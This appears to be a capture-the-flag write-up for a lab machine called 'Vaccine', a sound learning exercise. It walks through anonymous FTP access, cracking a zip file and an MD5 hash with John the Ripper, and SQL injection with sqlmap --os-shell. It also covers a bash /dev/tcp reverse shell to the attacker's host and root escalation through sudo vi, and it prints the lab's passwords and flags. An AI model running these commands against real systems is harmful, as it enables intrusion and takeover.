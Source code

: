 ## Vaccine Solution

### Besides SSH and HTTP, what other service is hosted on this box?
1. Run an nmap scan with the `-sV` (version of services) `-sC`(default scripts for service discovery and vulnerability detection) 
   ```bash
   nmap -sV -sC {target_machine_ip}
   nmap -sC -sV 10.129.251.21
   ```
![Screenshot 2024-02-19 at 8 50 14 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/6e42d6b3-b7cf-4f42-978f-8213b6bb9f10)

**Answer: ftp**

### This service can be configured to allow login with any password for specific username. What is that username? 

As with the nmap results above the `sC` option was able to determine that **Anonymous FTP login allowed**. If you do a google search the username for this is usually `anonymous`

**anonymous**

### What is the name of the file downloaded over this service?

1. Let's connect via ftp

```bash
ftp {target_machine_ip}
```

2. For username just use `anonymous` and just enter blank password.
3. Enter `ls` and you will find `backup.zip`
4. Run `get backup.zip`

![Screenshot 2024-02-19 at 11 41 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5a467605-0e2d-44f8-b10c-26c3235f9790)



**Answer: backup.zip**

### What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

1. We try to unzip the backup.zip however a password is required.
   
   ![Screenshot 2024-02-20 at 12 00 57 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/ae3c46ff-0939-4956-8cc9-8d8c92440424)


2. Do a quick google search and you will find the answer

**Answer: zip2john** 


### What is the password for the admin user on the website?

1. Let's run the `zip2john` script to crack the password. First let's obtain the password hashes.
   ```bash
   zip2john backup.zip > zip.txt
   ```
 
   ![Screenshot 2024-02-20 at 11 08 05 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/1a4ac24e-c684-4583-8f3d-77fd3d0e2db3)

2. Then let's crack the password for the backup.zip
   ```bash
   john zip.txt   
   ```
   ![Screenshot 2024-02-20 at 11 08 56 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/ed883cff-3296-4b69-b6cb-88d6a3d2633a)


3. Now let's unzip backup.zip with the password `741852963`. This gives us two files `index.php` and `style.css`
   ```bash
   unzip backup.zip
   ```
   
![Screenshot 2024-02-20 at 11 10 22 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/d214ebb6-65ae-4578-ab97-ad4f922a922b)

4. Now let's investigate the index.php `vim index.php`. Here we find a hashed password `2cb42f8734ea607eefed3b70af13bbd3` for the username `admin`. 
   
![Screenshot 2024-02-20 at 11 21 43 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/89307436-b4f4-4097-8c85-98c40531cd06)

5. Let's analyze the hash type by going on any hash analyzer. We use [https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier) in this case and find that it is MD5 format.

   ![Screenshot 2024-02-20 at 11 35 10 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/f49117bb-77a6-4b85-beab-f66fc95b04db)


6. Create a file called `admin-hash.txt` then insert the hash found in the previous step. Let's crack the hash password using john
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 admin-hash.txt
```
![Screenshot 2024-02-20 at 11 42 25 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/39740423-3616-4cf0-a75f-c1af601dd2e7)


**Answer: qwerty789**


### What option can be passed to sqlmap to try to get command execution via the sql injection?

1. Login using username `admin` and password `qwerty789`
2. Go to browser and get the cookie `PHPSESSID` value

![Screenshot 2024-02-22 at 12 45 40 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/9954818a-ad05-4789-9292-8b6e202e1b8a)



3. Next as we view with the page after we login, we can see one possible form to attack with SQL injection. We observe that submitting it appends a query parameter `search`
   
![Screenshot 2024-02-22 at 12 49 49 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/6f874149-cb51-4d73-81a8-488be978f271)

4. Let's use sqlmap and run the following.

```bash
sqlmap -u "http://{target_ip}/dashboard.php?search=test" --cookie="PHPSESSID={cookie_value}"

sqlmap -u "http://{target_ip}/dashboard.php?search=test" --cookie="PHPSESSID={cookie_value}" --os-shell

```
5. We have spawned a os-shell with user postgres. However executing `sudo -l` does not yield any meaningful results. The os-shell is limited in commands it can execute. It is not interactive 

![Screenshot 2024-02-22 at 12 56 35 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/508193c6-850c-405d-89c9-8c13377c2e08)

6. Let's go to our attack machine and create a netcat listner server

```bash
  nc -lvnp 5000
```

7. On our target machine running sqlmap os-shell let's connect to our server to spawn a reverse shell.

```bash
 bash -c  "bash -i >& /dev/tcp/{attack_machine_ip}/5000  0>&1"

```

8. We have spawned a reverse shell however we do not have an interactive shell yet.
   
![Screenshot 2024-02-22 at 1 11 58 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/e4502837-7e73-4692-8d16-6c07b0d3aae5)

9. Run the following to have an interactive shell. 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo
export TERM=xterm
```

10. We now have an interactive shell. Hovever we have to know the password of user `postgres` to run `sudo -l`
    
![Screenshot 2024-02-22 at 2 00 25 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/f39b4b0a-70c7-45ab-954f-325620f72896)

11. We have to find the password in the system. And since this server running a website, one of the places we can look at is `/var/www/`
    
![Screenshot 2024-02-22 at 2 26 14 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/60fdfdc5-b94d-487a-8b70-c05438972859)

12. Let's explore each of the files in the `html` folder. Under the `dashboard.php` file we find. 

![Screenshot 2024-02-22 at 2 32 15 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2582d9ed-becf-4bd2-be03-eb392cde88b0)


13. We test this password by using it for the password prompt for `sudo -l` Where we find that we have sudo rights for vi program.

![Screenshot 2024-02-22 at 2 10 53 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/752994b0-6b2d-4cf4-9aa4-9fa83b68a295)

**Answer: vi** 

### Submit user flag

1. Our connection via reverse shell is always being disconnected from the server. Since we know the password (P@s5w0rd! of the user `postgres`, let's just connect via ssh.
   ```bash
   ssh postgres@{target_machine_ip}
   ```

2.  Run `cd ~/` to go to `postgres` user's folder to see if there is something interesting. In here we will find `user.txt`

![Screenshot 2024-02-22 at 2 49 00 AM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/09726c3d-4635-4b0d-9f71-86de6ab0e1f9)

**Answer:ec9b13ca4d6229cd5cc1e09980965bf7**

### Submit the root flag

1. Continuing with our terminal established via ssh connnection in the previous section. We know that our current `postgres` user has sudo privileges for `vi`. Now let's attempt priviledge escalation.
   
2. Let's go to [https://gtfobins.github.io/gtfobins/vi/#shell](https://gtfobins.github.io/gtfobins/vi/#shell) to check if we can run a command to escalte our privileges to root.
   
3. Run the following:
   ```bash
    sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
   ```
   ![Screenshot 2024-03-10 at 4 29 43 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/4b7fc1a9-452d-4b4f-a3cc-3926f46aa5ac)
   
4. Then execute the following from inside vi based on GTFOBins
   ```bash
   :set shell=/bin/sh
   :shell
   ```
5. Now we have escalated our privileges and have a shell with root privileges. Now let's look for `root.txt`
   ```
   find / -type f -name "root.txt"
   ```
![Screenshot 2024-03-10 at 4 33 06 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/2666f836-1ec0-4d42-8533-ed61a4eb84cf)

   
6. Now let's look at the file to get flag
   ```bash
   vi /root/root.txt
   ```
**Answer: ddd6e058e814260bc70e9bbdef2715849**
